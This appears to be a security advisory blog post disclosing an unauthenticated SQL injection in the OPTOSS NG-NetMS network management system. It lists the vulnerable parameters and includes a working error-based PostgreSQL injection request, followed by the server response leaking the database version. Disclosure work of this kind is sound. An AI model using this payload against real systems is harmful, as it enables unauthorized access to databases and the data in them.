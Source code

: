 ```yaml
---
layout: post
title:  "SQL Injection in OPTOSS Next Gen Network Management System (NG-NetMS)"
date:   2019-01-20 19:51:02 +0700 
categories: [cve]
---
```


Vendor: OPT/NET BV
Product: OPTOSS Next Gen Network Management System (NG-NetMS)
Version affected: NG-NetMS v3.6-2 and earlier versions

#### Product description:
Opt/Net develops Next Gen Network Management System (NG-NetMS). This is a new web based end-to-end management tool. This project is nearly 14 years old and already proved to be indispensable tool for rapid data collection during audits and network infrastructure assessments.

This product provides near real-time visibility of the networks and ITC infrastructures and interconnected computing resources.

* CVE: CVE-2017-xxxx
* CWE: CWE-89

#### #Proof of Concept

The unauthenticated SQL Injection vulnerability can be exploited by issuing a specially crafted HTTP GET request. NG-NetMS v3.4 application fails to properly sanitize untrusted data before adding it to a SQL query. A malicious attacker can include own SQL commands which database will execute.

Identified vulnerable parameters: id, id_access_type and id_attr_access.  

The following HTTP GET request allows an attacker to exploit the SQL injection vulnerability to return banner information.

#### Request:
{% highlight ruby %}
GET /index.php?id=1%27%20AND%201=CAST((CHR(113)||CHR(112)||CHR(107)||CHR(122)||CHR(113))||(COALESCE(CAST(VERSION()%20AS%20CHARACTER(10000)),(CHR(32))))::text||(CHR(113)||CHR(106)||CHR(120)||CHR(113)||CHR(113))%20AS%20NUMERIC)--%20&r=attrValue/index HTTP/1.1
Host: a.b.c.d
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=q42805kqdm1pq02ig6omhfn3k4
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: no-transform
{% endhighlight %}

#### Response: 
{% highlight ruby %}
HTTP/1.1 500 Internal Server Error
Date: Mon, 30 Oct 2017 05:25:01 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.11
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Connection: close
Content-Type: text/html
Content-Length: 43313

<!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>

<snip>

<h2>Error 500</h2>

<div class="error">
CDbCommand failed to execute the SQL statement: SQLSTATE[22P02]: Invalid text representation: 7 ERROR:  invalid input syntax for type numeric: &quot;qpkzq PostgreSQL 9.3.9 on x86_64-unknown-linux-gnu, compiled by gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4, 64-bit qjxqq&quot;</div>        </div><!-- content -->
    </div>
    <div class="span3">
        <div id="sidebar">
                </div><!-- sidebar -->
    </div>
</div>

</snip>
{% endhighlight %}

